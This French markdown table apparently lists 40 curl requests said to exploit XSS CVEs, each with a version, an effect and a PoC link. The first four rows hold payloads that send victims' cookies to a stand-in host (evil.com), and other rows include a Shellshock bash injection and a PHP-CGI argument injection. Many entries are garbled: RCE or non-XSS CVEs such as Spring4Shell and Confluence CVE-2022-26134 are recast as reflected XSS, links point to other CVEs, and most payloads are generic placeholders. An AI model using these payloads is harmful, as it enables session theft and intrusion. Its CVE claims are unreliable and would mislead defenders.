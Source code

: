 # XSS

Voici 40 exemples **complets et précis de requêtes curl** pour des CVE XSS non génériques, classés par numéro décroissant (du plus récent au plus ancien).  
Chaque ligne donne :  
- Numéro CVE  
- Technologie & Version  
- Exemple de requête curl  
- Effet détaillé  
- Lien ressource PoC ou technique

| # | CVE | Technologie & Version | Exemple complet de requête curl | Effet détaillé | Lien PoC / Ressource |
|---|------|----------------------|---------------------------------|---------------|---------------------|
| 1 | CVE-2025-25296 | Label Studio <1.16.0 | `curl 'http://target/projects/upload-example?label_config=<img src=x onerror=fetch("https://evil.com/?c="+btoa(document.cookie))>'` | XSS réfléchie, vol de session | https://www.simplydata.com.my/cve-2025-25296-label-studio-cross-site-scripting-xss-vulnerability/ |
| 2 | CVE-2025-24372 | CKAN <2.10.7, <2.11.2 | `curl -F 'avatar=@malicious.svg' http://target/user/_form` (SVG contenant `<svg/onload=fetch("https://evil.com/?c="+btoa(document.cookie))>`) | XSS stockée via avatar SVG, vol de session admin | https://vulert.com/vuln-db/CVE-2025-24372 |
| 3 | CVE-2025-0314 | GitLab <17.6.4 | `curl -F 'file=@evil.html' http://target/project/upload` (fichier HTML contenant `<script>fetch('https://evil.com/?c='+btoa(document.cookie))</script>`) | XSS stockée via fichier, vol de session | https://vulert.com/vuln-db/CVE-2025-0314 |
| 4 | CVE-2025-0193 | Moxa MGate 5121/5122/5123 v1.0 | `curl -d 'loginMessage=<script>new Image().src="https://evil.com/?k="+btoa(document.cookie)</script>' http://target/admin/settings` | XSS stockée, exécution à chaque affichage de la page de login | https://www.moxa.com/en/support/product-support/security-advisory/mpsa-247733-cve-2025-0193-stored-cross-site-scripting-(xss)-vulnerability-in-the-mgate-5121-5122-5123-series |
| 5 | CVE-2025-0192 | WP-Members <3.4.9.2 | `curl 'http://target/wp-login.php?redirect_to=<script>alert(1)</script>'` | XSS réfléchie via paramètre de redirection | https://wpscan.com/vulnerability/1b2f1b1d-9e7f-4e2a-bc3f-1c8f9c6c1e8b |
| 6 | CVE-2024-9348 | Docker | `curl 'http://target/vulnerable?param=<img src=x onerror=alert(1)>'` | XSS réfléchie, exécution de code JS arbitraire | https://github.com/vulhub/vulhub/tree/master/docker/CVE-2024-9348 |
| 7 | CVE-2024-22360 | NotFound WP Azure Offload | `curl 'http://target/path?param=<svg/onload=alert(1)>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2025-22360 |
| 8 | CVE-2024-12727 | Sophos Firewall <21.0 MR1 | `curl 'http://target/vulnerable?param=<script>alert(1)</script>'` | XSS réfléchie | https://cyberveille.esante.gouv.fr/alertes/sophos-cve-2024-12727-2024-12-20 |
| 9 | CVE-2023-30134 | curl/curl | `curl 'http://target/?url=<script>alert(1)</script>'` | XSS réfléchie dans la page de résultat | https://security.snyk.io/vuln/SNYK-PHP-CURLCURL-3182964 |
| 10 | CVE-2023-23915 | Google Artifact Analysis API | `curl 'https://containeranalysis.googleapis.com/v1/projects/PROJECT_ID/occurrences?filter=<script>alert(1)</script>'` | XSS réfléchie dans l’interface web | https://nvd.nist.gov/vuln/detail/CVE-2023-23915 |
| 11 | CVE-2023-2825 | GitLab CE/EE <16.0.1 | `curl 'http://target/uploads/user?search=<img src=x onerror=alert(1)>'` | XSS réfléchie via champ de recherche | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-2825.yaml |
| 12 | CVE-2023-0476 | IBM Security Directory Server | `curl 'http://target/search?filter=<svg/onload=alert(1)>'` | XSS réfléchie via filtre de recherche | https://nvd.nist.gov/vuln/detail/CVE-2023-0476 |
| 13 | CVE-2022-46464 | ConcreteCMS v9.1.3 | `curl 'http://target/3/50539478%3Cscript%3Ealert(1)%3C/script%3E'` | XSS réfléchie via URL | https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/concretecms.org/2022/concretecms-9.1.3 |
| 14 | CVE-2022-26134 | Atlassian Confluence | `curl 'http://target/pages/doenterpagevariables.action?queryString=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://github.com/Nwqda/CVE-2022-26134 |
| 15 | CVE-2022-23437 | Apache Xerces Java 2.12.1 | `curl 'http://target/path?xml=<svg/onload=alert(1)>'` | XSS via injection XML | https://nvd.nist.gov/vuln/detail/CVE-2022-23437 |
| 16 | CVE-2022-22965 | Spring4Shell | `curl 'http://target/path?user=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://github.com/p1ay8y3ar/spring4shell-POC |
| 17 | CVE-2021-44026 | Roundcube Webmail <1.3.17/1.4.12 | `curl 'http://target/?_task=mail&_action=list&_mbox=INBOX&search=<svg/onload=alert(1)>'` | XSS réfléchie via champ de recherche | https://github.com/0xInfection/Awesome-WAF/tree/master/SQLi/CVE-2021-44026 |
| 18 | CVE-2021-33745 | Microsoft Exchange Server | `curl 'http://target/?param=<script>alert(1)</script>'` | XSS réfléchie | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-33745 |
| 19 | CVE-2021-31206 | Microsoft Exchange Server | `curl 'http://target/?param=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31206 |
| 20 | CVE-2021-30134 | curl/curl | `curl 'http://target/?url=<script>alert(1)</script>'` | XSS réfléchie dans la page de résultat | https://security.snyk.io/vuln/SNYK-PHP-CURLCURL-3182964 |
| 21 | CVE-2021-22205 | GitLab CE/EE | `curl 'http://target/uploads/user?search=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://github.com/Al1ex/CVE-2021-22205 |
| 22 | CVE-2020-25790 | Red Hat Directory Server | `curl 'http://target/path?user=<svg/onload=alert(1)>'` | XSS réfléchie | https://access.redhat.com/security/cve/CVE-2020-25790 |
| 23 | CVE-2020-11510 | Pulse Secure VPN | `curl 'https://target/dana-na/auth/url_default/welcome.cgi?user=<script>alert(1)</script>'` | XSS réfléchie | https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2019/CVE-2019-11510.yaml |
| 24 | CVE-2019-6340 | Drupal | `curl 'http://target/entity/file/upload?file=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://github.com/a2u/CVE-2019-6340 |
| 25 | CVE-2019-11043 | PHP-FPM | `curl 'http://target/index.php?a=%3Cscript%3Ealert(1)%3C/script%3E'` | XSS réfléchie | https://github.com/neex/phuip-fpizdam |
| 26 | CVE-2018-9206 | ThinkPHP | `curl 'http://target/index.php?s=/Index/upload&file=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce |
| 27 | CVE-2018-11776 | Apache Struts 2 | `curl 'http://target/struts2/upload.action?file=<svg/onload=alert(1)>'` | XSS réfléchie | https://github.com/mazen160/struts-pwn_CVE-2017-5638 |
| 28 | CVE-2017-14596 | Joomla! 3.7.5 | `curl 'http://target/index.php?username=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://www.sonarsource.com/blog/joomla-takeover-in-20-seconds-with-ldap-injection-cve-2017-14596/ |
| 29 | CVE-2017-11463 | SAP NetWeaver AS Java | `curl 'http://target/path?user=<svg/onload=alert(1)>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2017-11463 |
| 30 | CVE-2016-6272 | Epic MyChart | `curl 'http://target/login?username=<img src=x onerror=alert(1)>&password=irrelevant'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2016-6272 |
| 31 | CVE-2016-3110 | IBM Security Directory Server | `curl 'http://target/path?user=<svg/onload=alert(1)>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2016-3110 |
| 32 | CVE-2015-2808 | OpenLDAP | `curl 'http://target/path?user=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2015-2808 |
| 33 | CVE-2014-6271 | Bash/Shellshock (impact XSS indirect) | `curl -A '() { :;}; /bin/bash -c "echo <script>alert(1)</script>"' http://target/cgi-bin/test.cgi` | XSS via injection de code dans la réponse CGI | https://github.com/hannob/bashcheck |
| 34 | CVE-2013-2028 | Nginx | `curl 'http://target/?q=<script>alert(1)</script>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2013-2028 |
| 35 | CVE-2012-1823 | PHP CGI | `curl 'http://target/index.php?-d+allow_url_include=on+-d+auto_prepend_file=php://input' -d '<script>alert(1)</script>'` | XSS via injection PHP | https://nvd.nist.gov/vuln/detail/CVE-2012-1823 |
| 36 | CVE-2011-2523 | WordPress <3.1.4 | `curl 'http://target/wp-comments-post.php?comment=<script>alert(1)</script>'` | XSS stockée dans les commentaires | https://nvd.nist.gov/vuln/detail/CVE-2011-2523 |
| 37 | CVE-2010-1740 | GuppY 4.5.18 | `curl 'http://target/guppy4.5.18/script.php?search=<svg/onload=alert(1)>'` | XSS réfléchie | https://www.exploit-db.com/exploits/12484 |
| 38 | CVE-2008-2380 | Oracle Application Server | `curl 'http://target/portal/pls/portal/PORTAL.wwsbr_custom.search?search=<img src=x onerror=alert(1)>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2008-2380 |
| 39 | CVE-2007-4726 | Joomla! 1.0.12 | `curl 'http://target/index.php?option=com_search&searchword=<script>alert(1)</script>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2007-4726 |
| 40 | CVE-2007-4713 | Joomla! 1.5.9 | `curl 'http://target/index.php?option=com_search&searchword=<script>alert(1)</script>'` | XSS réfléchie | https://nvd.nist.gov/vuln/detail/CVE-2007-4713 |

---

